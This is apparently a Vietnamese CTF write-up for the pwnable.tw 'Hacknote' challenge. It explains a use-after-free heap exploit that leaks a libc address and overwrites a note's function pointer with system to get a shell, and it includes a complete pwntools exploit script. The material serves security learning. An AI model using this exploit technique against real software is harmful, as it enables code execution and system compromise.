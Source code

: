 # pwnable.tw - Hacknote

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
hacknote_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=a32de99816727a2ffa1fe5f4a324238b2d59a606, stripped

```
Đây là file 32-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi

![ida.png](images/ida.png)

# 2. Ý tưởng

Do ở đây có 3 options cho chúng ta lựa chọn đó là 

```
1. Add note
2. Delete note
3. Print note
```
Và ở hàm `create_note` có sử dụng `malloc`, hàm `delete_note` có sử dụng `free`

Nên mình đã nghĩ ngay đến `heap_exploitation`

# 3. Khai thác

- Đầu tiên ta sẽ tạo thử 2 note:
```
create(123,b"a"*123)
create(123,b"b"*123)
```
Check heap khi đó

![gdb1.png](images/gdb1.png)
 
![gdb2.png](images/gdb2.png)

Ok, nhìn vào fastbins chỉ có max size là `0x40` nên ta sẽ tạo và free 1 chunk nào đó với size > `0x40` là sẽ được đưa vào `unsortedbin` -> lợi dụng điều này leak được địa chỉ libc

- Kế đến leak địa chỉ libc 
```
free(0)
create(123,b"BBBB")
show(0)
p.recvuntil(b"BBBB")
leak = int.from_bytes(p.recv(4),"little") - 1771274
system = leak + 0x3a940
print("[+]Libc_base:    ", hex(leak))
print("[+]Libc_system:  ", hex(system))
```

Ở đây sau khi mình free chunk đầu tiên thì sẽ thấy 1 địa chỉ nào đó của libc xuất hiện 

![gdb3.png](images/gdb3.png)

Sau khi bạn đã sử dụng hàm free để giải phóng một đối tượng nào đó trên heap, địa chỉ của đối tượng đó không bị thay đổi và vẫn 

trỏ đến vị trí cũ. Điều này có thể xảy ra trong một số hệ thống quản lý bộ nhớ động, khi việc giải phóng bộ nhớ không thay đổi 

giá trị của con trỏ. Điều này có thể giải thích tại sao địa chỉ 0x8496010 vẫn trỏ vào vị trí 0xf7f537b0 sau khi bạn đã giải phóng.

Cùng nhìn vào chunk 0 khi ấy:

![gdb4.png](images/gdb4.png)

Vậy là địa chỉ của libc đã xuất hiện trên chunk 0

-> Ta sẽ relocate lại chunk 0 và ghi đè 4 byte đầu để leak được 4 bytes sau là địa chỉ libc

- Bước cuối cùng lợi dụng lỗi chiếm shell thôi

```
free(0)
free(1)

create(123, p32(system) + b";sh;")

show(0)
```

Mình để ý được 1 đoạn

![gdb5.png](images/gdb5.png)

Oke giờ ta sẽ chạy option show_note

![gdb6.png](images/gdb6.png)

Oke đó chính là 4 bytes đầu của chunk 1 còn 4 bytes sau đó chính là địa chỉ của chuỗi data mà nó in ra

-> 4 byte sau đó là tham số, 4 bytes đầu là địa chỉ call

Vậy chỉ cần over write 4 bytes đầu của chunk 0 đó bằng địa chỉ hàm `system` -> get_shell

Ta sẽ free 2 lần và create 1 chunk với 4 bytes đầu là địa chỉ `system` còn 4 bytes sau là `;sh;`(Do ta cần cô lập `sh` với các ký tự liền kề nó khi gọi `system`)

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("hacknote_patched")
libc = elf.libc

local = True 
if local:
    p = process("./hacknote_patched")
    gdb.attach(p,'''
    c
    ''')
else:
    p = remote('chall.pwnable.tw', 10102)

elf = context.binary = ELF('./hacknote_patched', checksec=False)

def create(size, data):
    p.sendlineafter(b"Your choice :", b"1")
    p.sendlineafter(b"Note size :", str(size))
    p.sendlineafter(b"Content :", data)
    print("\n[*]Create: Done")

def free(idx):
    p.sendlineafter(b"Your choice :", b"2")
    p.sendlineafter(b"Index :", str(idx))
    print("\n[*]Free: Done")

def show(idx):
    p.sendlineafter(b"Your choice :", b"3")
    p.sendlineafter(b"Index :", str(idx))

create(123,b"a"*123)
create(123,b"b"*123)
free(0)

create(123,b"BBBB")
show(0)
p.recvuntil(b"BBBB")
leak = int.from_bytes(p.recv(4),"little") - 1771274
system = leak + 0x3a940
print("[+]Libc_base:    ", hex(leak))
print("[+]Libc_system:  ", hex(system))

free(0)
free(1)

create(123, p32(system) + b";sh;")

show(0)
if local: 
    p.sendline(b"id")
else:
    p.sendline(b"cd home/hacknote")
    p.sendline(b"cat flag")

p.interactive()

```


